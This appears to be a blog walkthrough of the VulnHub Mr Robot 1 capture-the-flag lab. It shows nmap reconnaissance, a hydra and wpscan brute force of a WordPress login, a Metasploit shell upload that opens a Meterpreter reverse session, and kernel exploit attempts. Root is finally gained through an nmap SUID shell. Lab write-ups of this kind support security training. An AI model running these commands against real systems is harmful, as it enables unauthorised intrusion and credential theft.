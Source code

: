 ```yaml
---
layout: post-detail
title: CTF - walkthough with mrrobot 1
date: 2018-09-15
catagories: ctf
description: Walkthough with the CTF [mrrobot](https://www.vulnhub.com/entry/mr-robot-1,151)
comment: true
---
```


# Discover the network:

    $ ip a | grep inet

```
inet 127.0.0.1/8 scope host lo
inet6 ::1/128 scope host
inet 192.168.2.111/24 brd 192.168.2.255 scope global wlp2s0
inet6 fe80::7082:9eff:fe8b:60b2/64 scope link
```

Target must be located somewhere on 192.168.2.0/24.

# Find our target:

Let's start `nmap` with the `syn scan`:

    $ sudo nmap -sS 192.168.2.0/24

```
Nmap scan report for 192.168.2.106
---
MAC Address: 08:00:27:CD:31:B0 (Oracle VirtualBox virtual NIC)
```

So, my target is: `192.168.2.106`, let's continious with a `tcp` scan with `version`.

    $ sudo nmap -sTV -p- -Pn 192.168.2.106
    
```
22/tcp  closed ssh
80/tcp  open   http   Apache httpd
443/tcp open   ssl/https  Apache httpd
```

Let's try to found some vulnerability:

    $ sudo nmap --script vuln 192.168.2.106

```
http-enum:
|   /admin/: Possible admin folder
|   /admin/index.html: Possible admin folder
|   /wp-login.php: Possible admin folder
|   /robots.txt: Robots file
|   /readme.html: Wordpress version: 2
|   /feed/: Wordpress version: 4.3.17
|   /wp-includes/images/rss.png: Wordpress version 2.2 found.
|   /wp-includes/js/jquery/suggest.js: Wordpress version 2.5 found.
|   /wp-includes/images/blank.gif: Wordpress version 2.6 found.
|   /wp-includes/js/comment-reply.js: Wordpress version 2.7 found.
|   /wp-login.php: Wordpress login page.
|   /wp-admin/upgrade.php: Wordpress login page.
|   /readme.html: Interesting, a readme.
|   /0/: Potentially interesting folder
|_  /image/: Potentially interesting folder
```

Nmap found a wordpress site version 4.3.17, a `/robots.txt` and a login page.

    $ w3m http://192.168.2.106/robots.txt

```
User-agent: *
fsocity.dic
key-1-of-3.txt
```

Let's download these files, we found the first key:

    $ wget -cv http://192.168.2.106/fsocity.dic
    $ wget -cv http://192.168.2.106/key-1-of-3.txt

Check what is fsocity.dic:

    $ head -n 5 fsocity.dic

```
true
false
wikia
from
the
```

A dictionary...

    $ wc -l fsocity.dic
    858160

Let's try to reduce this file:

    $ cat fsocity.dic | sort | uniq > fsociety_sort.dic    
    $ wc -l fsociety_sort.dic
    11451

With this new dictionary, it's time to attack the `/wp-login.php`.
Before crack the password with hydra, i capture the POST request with burpsuite and w3m configure with: (into `~/.w3m/config`)

+ use_proxy 1
+ http-proxy `http://127.0.0.1:8080`
+ https-proxy `http://127.0.0.1:8080`

Start `burpsuite` and `w3m http://192.168.2.106/wp-login.php`

Fill the formular and burpsuite return that:

```
POST /wp-login.php HTTP/1.0
---
log=WeirdUsernamel&pwd=WeirdPasswd&wp-submit=Log+In&redirect_to=http%3A%2F%2F192.168.2.106%2Fwp-admin%2F&testcookie=1
```

Rather than attack the page with username and password in the same time (it take too many time), we first, check a valid username like wordpress generate an error when username is good and password not.

    $ hydra -V -L fsociety_sort.dic -p test -f 192.168.2.106 http-post-form '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2F192.168.2.106%2Fwp-admin%2F&testcookie=1:Bad Loggin' 1&>log.txt

All valid lines contain `http-post-form`:

    $ grep -i http-post-form log.txt

```
[DATA] attacking service http-post-form on port 80
[80][http-post-form] host: 192.168.2.106   login: elliot   password: test
[80][http-post-form] host: 192.168.2.106   login: Elliot   password: test
[80][http-post-form] host: 192.168.2.106   login: ELLIOT   password: test
```

We found the username `elliot`, next, the password...

    $ wpscan -u 192.168.2.106 --username elliot --wordlist ~/fsocity_sort.dic

```
Brute Forcing 'elliot' Time: 00:06:49 <===========            > (5630 / 11452) 49.16%  ETA: 00:07:03
  +----+--------+------+-----------+
  | ID | Login  | Name | Password  |
  +----+--------+------+-----------+
  |    | elliot |      | ER28-0652 |
  +----+--------+------+-----------+
```

With these informations, we will use the module `wp_admin_shell_upload.rb` from `metasploit`.

Before use, we need to edit the source code and comment one line :)

    $ vim /usr/lib64/metasploit4.16/modules/exploits/unix/webapp/wp_admin_shell_upload.rb

And change the line:

    fail_with(Failure::NotFound, 'The target does not appear to be using WordPress') unless wordpress_and_online?

with:

    #fail_with(Failure::NotFound, 'The target does not appear to be using WordPress') unless wordpress_and_online?

Save & close the file.

    $ msfconsole
    use exploit/unix/webapp/wp_admin_shell_upload
    show options
    set USERNAME elliot
    set PASSWORD ER28-0652
    set RHOST 192.168.2.106
    run

```
[+] Authenticated with WordPress
[*] Preparing payload...
[*] Uploading payload...
[*] Executing the payload at /wp-content/plugins/qNaWEECiyV/bmiIwZjjty.php...
[*] Sending stage (37775 bytes) to 192.168.2.106
[*] Meterpreter session 1 opened (192.168.2.111:4444 -> 192.168.2.106:56965) at 2018-09-14 19:06:21 +0200
[!] This exploit may require manual cleanup of 'bmiIwZjjty.php' on the target
[!] This exploit may require manual cleanup of 'qNaWEECiyV
.php' on the target
[!] This exploit may require manual cleanup of '../qNaWEECiyV\' on the target
```

Always on msfconsole, navigate on the server.

    meterpreter > sysinfo
    OS: Linux linux 3.13.0-55-generic #94-Ubuntu SMP Thu Jun 18 00:27:10 UTC 2015 x86_64

    meterpreter > cd /home/robot
    meterpreter > ls
    meterpreter > cat password.raw-md5
    robot:c3fcd3d76192e4007dfb496cca67e13b

Open [leaked.py](https://github.com/GitHackTools/Leaked):

    $ leaked.py

```
2, Hash Leaked
Enter or paste a hash code you want to check: c3fcd3d76192e4007dfb496cca67e13b
THAT HASH CODE IS LEAKED! It means: abcdefghijklmnopqrstuvwxyz
```

Return on meterpreter, we going to connect as robot:

    meterpreter > shell
    python -c 'import pty; pty.spawn("/bin/sh")'
    su robot
    Password: abcdefghijklmnopqrstuvwxyz

    cd
    cat key-2-of-3.txt
    822c73956184f694993bede3eb39f959
    
So, the last step is the escalation of privilege. I've test two exploit here for linux 3.13:

    $ searchsploit 3.13
    ---
    Linux Kernel 3.13  | exploits/linux/local/33824.c
    Linux Kernel 3.13. | exploits/linux/local/37292.c
    ---

Into msfconsole:

    meterpreter > cd /tmp
    meterpreter > upload /usr/share/exploitdb/exploits/linux/local/33824.c
    meterpreter > upload /usr/share/exploitdb/exploits/linux/local/37292.c

Next, we have to compile and execute these programs.

    $ gcc 33824.c -o test1
    $ gcc 37292.c -o test2
    $ ./test1
    $ ./test2

But the both exploits failed here so after few minutes on google, that vm have an old version of nmap with a special option `--interactive` who give root access.

    $ find / -perm +6000 2> /dev/null | grep nmap
    $ nmap --interative
    $ !sh
    $ cd /root && cat key-3-of-3.txt
    04787ddef27c3dee1ee161b21670b4e4

